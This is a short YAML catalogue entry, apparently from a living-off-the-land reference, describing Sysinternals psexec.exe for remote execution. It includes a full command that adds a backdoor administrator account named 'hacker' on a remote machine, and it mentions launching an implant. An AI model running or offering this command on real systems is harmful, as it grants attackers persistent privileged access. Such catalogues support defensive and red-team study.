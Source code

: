 ```yaml
---
Name: psexec.exe
Description: Executes a program on a remote system, where remotely executed console applications execute interactively
Updated: 2023-07-01
Toolsets:
  - Sysinternals
Commands:
  - Command: psexec.exe \\W10.ad.bitsadmin.com -s cmd.exe /c net user hacker hacker /add ^&^& net localgroup Administrators hacker /add
    Description: Execute commands
    Usecases:
      - In this example adds a backdoor user
      - Can also be used to launch an implant
    Function: Execute
    Comments:
      - Installs PSEXESVC service on remote system
    MitreAttack:
      - T1569.002
Resources:
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```


